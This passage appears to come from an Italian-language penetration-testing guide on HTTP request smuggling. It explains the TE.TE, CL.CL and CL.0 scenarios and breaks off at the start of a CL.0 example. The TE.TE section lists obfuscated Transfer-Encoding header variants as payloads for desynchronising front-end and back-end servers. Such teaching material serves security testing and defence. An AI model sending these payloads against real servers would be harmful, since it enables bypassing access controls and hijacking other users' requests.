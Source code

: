 - **Server:** Entrambi supportano `Transfer-Encoding`, ma uno può essere ingannato a ignorarlo tramite offuscamento.
- **Scenario di Attacco:**

- L'attaccante invia una richiesta con intestazioni `Transfer-Encoding` offuscate.
- A seconda di quale server (front-end o back-end) non riesce a riconoscere l'offuscamento, potrebbe essere sfruttata una vulnerabilità CL.TE o TE.CL.
- La parte non elaborata della richiesta, come vista da uno dei server, diventa parte di una richiesta successiva, portando a smuggling.
- **Esempio:**

```
POST / HTTP/1.1
Host: vulnerable-website.com
Transfer-Encoding: xchunked
Transfer-Encoding : chunked
Transfer-Encoding: chunked
Transfer-Encoding: x
Transfer-Encoding: chunked
Transfer-Encoding: x
Transfer-Encoding:[tab]chunked
[space]Transfer-Encoding: chunked
X: X[\n]Transfer-Encoding: chunked

Transfer-Encoding
: chunked
```

#### **Scenario CL.CL (Content-Length utilizzato sia dal Front-End che dal Back-End)**

- Entrambi i server elaborano la richiesta basandosi esclusivamente sull'intestazione `Content-Length`.
- Questo scenario tipicamente non porta a smuggling, poiché c'è allineamento nel modo in cui entrambi i server interpretano la lunghezza della richiesta.
- **Esempio:**

```
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 16
Connection: keep-alive

Normal Request
```

#### **Scenario CL.0**

- Si riferisce a scenari in cui l'intestazione `Content-Length` è presente e ha un valore diverso da zero, indicando che il corpo della richiesta ha contenuto. Il back-end ignora l'intestazione `Content-Length` (che è trattata come 0), ma il front-end la analizza.
- È cruciale per comprendere e creare attacchi di smuggling, poiché influisce su come i server determinano la fine di una richiesta.
- **Esempio:**
